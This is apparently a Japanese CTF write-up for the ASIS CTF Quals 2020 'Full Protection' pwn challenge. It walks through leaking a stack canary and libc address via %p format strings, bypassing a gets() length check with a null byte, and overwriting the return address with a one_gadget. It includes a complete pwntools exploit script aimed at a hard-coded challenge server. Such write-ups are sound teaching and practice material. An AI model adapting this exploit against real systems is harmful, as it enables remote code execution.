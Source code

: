 ```yaml
---
tags: pwn
---
```


# ASIS CTF Quals 2020 - Full Protection

これまでに解いた問題: https://hackmd.io/@Xornet/BkemeSAhU

## Writeup

### Outline

Fortify有効で`%i$p`のような書式が使えないので`%p`を沢山並べてカナリアとlibc leakをする。これを利用して次の入力でカナリアを破壊しないBOFを引き起こし、リターンアドレスを書き換える。

### checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

### Binary

非常にシンプルなバイナリ、main関数の定数定義等をすっ飛ばすとこんな感じ↓
```c
  while( true ) {
    iVar1 = readline(&local_58,0x40);
    if (iVar1 == 0) break;
    __printf_chk(1,&local_58);
    _IO_putc(10,stdout);
  }
```

`readline`はこんな感じ↓
```c
void readline(char *pcParm1,int iParm2)

{
  size_t sVar1;
  
  gets(pcParm1);
  sVar1 = strlen(pcParm1);
  if ((int)sVar1 < iParm2) {
    return;
  }
  puts("[FATAL] Buffer Overflow");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}
```

何回でも入力を受け付けてそれをそのまま表示するという形である。
Fortifyで`printf`が`__printf_chk`に置き換えられているが引数だけ見れば自明なFSBがある

### strlenチェックの回避

まず`readline`から見ていくと`gets`関数が使われているので自明なBOFがある。
しかし、読み込み先のポインタが示す文字列の長さが`iParm2`を超えるとBOFを検知して終了する。`main`での呼び出しを見ると0x40バイト以上の読み込みを検知すると`_exit(1)`して終了する。読み込み先は`main`のスタック上であるがこの程度ではリターンアドレスの書き換えには及ばない。
しかし、文字列の長さ判定に`strlen`を用いているためヌルバイトを与えるとそこで止まる。したがって`gets`で先頭にヌルバイトを送り込んでおけば0文字入力としてこのチェックをバイパス出来る。というわけで`readline`で実質任意長のBOFが出来る。

### Fortify

ところでこのバイナリはSSPが有効であるので普通にBOFをさせただけではabortしてしまう。何度でも入力を受け付けるのでFSAでスタック上の値、つまりSSPで使われているカナリアを読み出してSSPを回避する。
今回は`__printf_chk(1, &local_58)`の部分にFSBがあるのでFSAができそうだがこれがFortifyで置き換えられた関数であるので`%i$p`のような特定箇所に絞った値を表示する書式が使えない。また、`%n`も使えない。
しかしバッファは潤沢にあるので`%p`を15個ぐらい並べることが出来、これでカナリアとリターンアドレスがリーク出来る。後者は`__libc_start_main+231`に相当するのでlibc leakも出来る。

### Payload

以上の考察を踏まえて、1回目に%pをたくさん並べてカナリアの値とlibcの配置先をリークする。これを使って2回目の入力でカナリアを壊さないようにBOFを引き起こし、One Gadgetをリターンアドレスに仕込んでシェルを取る。

ROPでも良い上に確実だと思うが面倒だった

## Code

```python
from pwn import p64, u64, remote, process, ELF


if __name__ == '__main__':
    target = "69.172.229.147"
    port = 9002
    libc = ELF("./libc-2.27.so")
    start_main_libc = libc.symbols["__libc_start_main"]
    offset = 231
    one_gadgets = [0x4f2c5, 0x4f322, 0x10a38c]

    payloads = {
        "fsa": b"%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p",
        "rop": b""
    }

    # s = process("./fp_chall")
    s = remote(target, port)
    s.sendline(payloads["fsa"])
    res = s.recvline().split(b" ")
    canary = int(res[13][2:], 16)
    libc_addr = int(res[15][2:], 16) - start_main_libc - offset

    print(hex(canary))
    print(hex(libc_addr))

    payloads["rop"] = p64(0) * 9 + p64(canary) + p64(0) + p64(libc_addr + one_gadgets[1])

    s.sendline(payloads["rop"])

    s.interactive()

```

## Flag

`ASIS{s3cur1ty_pr0t3ct10n_1s_n07_s1lv3r_bull3t}`

## 作問者Writeup

* https://ptr-yudai.hatenablog.com/entry/2020/07/06/000622#53pts-Full-Protection-101-solves

## 感想

この企画やってる割に今回解けたPwnがこれだけというのがちょっと残念ですが解けてよかったです
CTF中の裏話をするとbabynoteはフラグ提出したチームメンバーのDronex君と一緒に考えていてカナリア中のバイトをfastbinのサイズヘッダとして利用する攻撃を思いついたんですが、スタックリークが厳しくて提案地点では失敗したのと、スタックリークは結局成功したんですが、Heapアドレスの頭が0x56になる方が可能性が高くてそちらで解く結果になりました(ちなみに0x55だとチャンクのフラグの都合で失敗するらしい)。
結局貢献は出来ませんでしたがカナリアのランダム性を利用してスタックで何か悪いことをするというのは今後の攻略/作問アイデアに取っておいて良いかもしれません(後者で使うことになったらこっそり消します)

あと明日のこの企画はおそらくbabynoteです